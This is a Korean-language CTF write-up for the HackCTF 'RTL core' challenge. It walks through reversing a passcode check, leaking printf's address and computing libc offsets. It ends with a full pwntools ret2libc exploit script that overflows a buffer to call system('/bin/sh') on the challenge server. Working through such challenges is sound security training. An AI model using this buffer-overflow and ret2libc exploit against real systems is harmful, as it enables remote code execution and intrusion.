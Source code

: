 ```yaml
---
layout: post
title:  "HacCTF RTL core write-up"
date:   2020-01-12 19:45:55
image:  hackctf_rtl_core.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

걸려있는 보호기법은 다음과 같다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled.png)

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%201.png)

문제를 실행시키면 패스코드를 입력하라는 문구가 나오게 된다.

특정 패스코드를 입력해야 뭔가 다음 스텝으로 진행되는 것 같다. 

따라서 아이다로 까보쟈  
<br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%202.png)

9라인을 보면 gets로 입력한 s 값을 check_pascode 함수에 넣은 값과 hashcode와 비교하는 것이 보인다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%203.png)

hashcode는 전역변수로 선언이 되어있는데 이 값은 0xc0d9b0a7 이다. check_passcode 함수의 리턴값과 저 값이 같아야지 core() 함수가 실행되는 것같다
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%204.png)

core함수는 다음과 같다. dlsym 함수를 이용하여 printf의 주소를 가져오는 코드이다. 따라서 해당 core 함수가 실행되면 printf 함수주소를 알려주게 된다. 즉 leak을 이용한 rtl 문제이다.
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%205.png)

그렇다면 우선 check_passcode 함수에서 hashcode와 같은 값을 계산하게 만들어야한다
<br><br><br>
### 2. 접근방법

우선 check_passcode를 통과시켜 보자

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%206.png)
<br><br>
입력한 값의 주소가 넘어가게된다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%205.png)
<br><br>
for문을 보면 al값에 4*i 만큼 더하고 다시 4바이트 포인터로 형변환 값을 v2에 더하게 된다
<br><br>
즉, 정리하면

- **i = 0**

    v2 = 0 + a1

- **i = 1**

    v2 = 4 + a1

- **i = 2**

    v2 = 8 + a1

- **i = 3**

    v2 = 12 + a1

- **i = 4**

    v2 = 16 + a1  
    
<br>
다음의 로직이 수행이 되고, 이 의미는, al 주소에서 4바이트 씩 +16까지 더한다는 의미이다.

이 값이 아까 hasscode와 같아야 하기 때문에 hashcode 나누기 5 를 하면 된다

하지만 딱 떨어지지 않고 2가 남기 때문에, 마지막 al+16의 값은 +2를 해주면 된다

1. hashcode : 0xC0D9B0A7(3235492007)
2. hashcode / 5 =  647098401 (나머지 2)
3. 입력해야 하는 값 

    647098401 + 647098401  + 647098401  + 647098401  + (647098401 + 2)
    
<br>    

그다음 core함수를 통해 출력되는 printf 주소를 이용하여 rtl을 진행하면된다

문제에서 libc.so.6 파일을 주었기 때문에, pwntools symbols 기능을 이용하여 익스코드를 짜면된다
<br><br><br><br>
### 3. 풀이

최종 익스 코드는 다음과 같다
```python
# -*- coding: utf-8 -*- 

from pwn import *

p = remote("ctf.j0n9hyun.xyz",3015)
e = ELF("./libc.so.6")
#p = process("./rtlcore")
#gdb.attach(p)

p.recvuntil("Passcode: ")


printf = 0xf7e4a670
system = 0xf7e3bda0
bin_sh = 0xf7f5ca0b

printf_system = 0xe8d0
bin_sh_printf = 0x11239b


payload = p32(0x2691f021)*4
payload +=p32(0x2691f023)

p.sendline(payload)
tmp=p.recvuntil("바로 ")
log.info(tmp)

printf_addr = int(p.recv(10),16)
log.info(hex(printf_addr))


libc_base = printf_addr - e.symbols['printf']

system_addr = libc_base + e.symbols['system']
bin_sh_addr = libc_base + e.search("/bin/sh").next()

payload = "A"*66
payload += p32(system_addr)
payload += "B"*4
payload += p32(bin_sh_addr)

p.sendline(payload) 

p.interactive()
```

<br><br><br>
### 4. 몰랐던 개념

처음에는 yes_or_no 문제를 풀면서 공부한 libc 공유 라이브러리 개념을 이용하여 문제를 풀었다

leak 한 주소 하위 3바이트를 가지고 libc database online을 이용하여 해당 libc 버전을 확인하였고, vmmap 을 이용하여 한번더 버전을 확인했다.

그 결과 우분투 16버전에서 진행하면 되는 것을 확인하였고,

<br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%207.png)

다음의 명령어를 통해 주어진 libc.so.6 파일이 결국 libc.-2.23.so 파일에 링킹되어 있다는 것을 알았다


<br>
그래서

    printf : 0xf7e4a670
    system : 0xf7e3bda0
    /bin/sh : 0xf7f5ca0b
    
    1. printf - system = 0xe8d0
    2. /bin/sh - printf =  0x11239b
    
    3. leak 한 printf 주소 - 0xe8d0 = system
    4. leak 한 printf 주소 + 0x11239b = /bin/sh
    
    --------------------------------------------
    
    ret(system) + 더미 + /bin/sh주소

이렇게 gdb로 직접 오프셋을 확인하여 익스를 하였는데

process로 로컬로 붙어서 했을때는 쉘이 떨어졌는데 원격으로는 안됬다. 

이부분은 멘토님이나 다른 친구한테 질문해야 할 것같다